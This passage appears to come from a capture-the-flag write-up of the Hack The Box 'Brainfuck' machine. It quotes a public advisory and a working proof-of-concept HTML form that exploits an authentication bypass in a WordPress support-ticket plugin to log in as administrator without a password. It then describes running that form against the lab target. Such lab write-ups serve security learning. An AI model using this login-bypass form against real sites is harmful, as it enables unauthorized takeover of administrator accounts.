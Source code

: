 ```sh
1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="https:/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>

Then you can go to admin panel.
```

so we add the url to tha action and beable to start a python server so that we can use it to execute the login.

![](/Linux/Linux-Insane/Brainfuck/Screenshots/server.png)


so it has finish execuring but we cannot see anything 

![](Linux/Linux-Insane/Brainfuck/Screenshots/reloaded.png)


so upon going back to `brainfuck.htb` we have been succesful logged in 
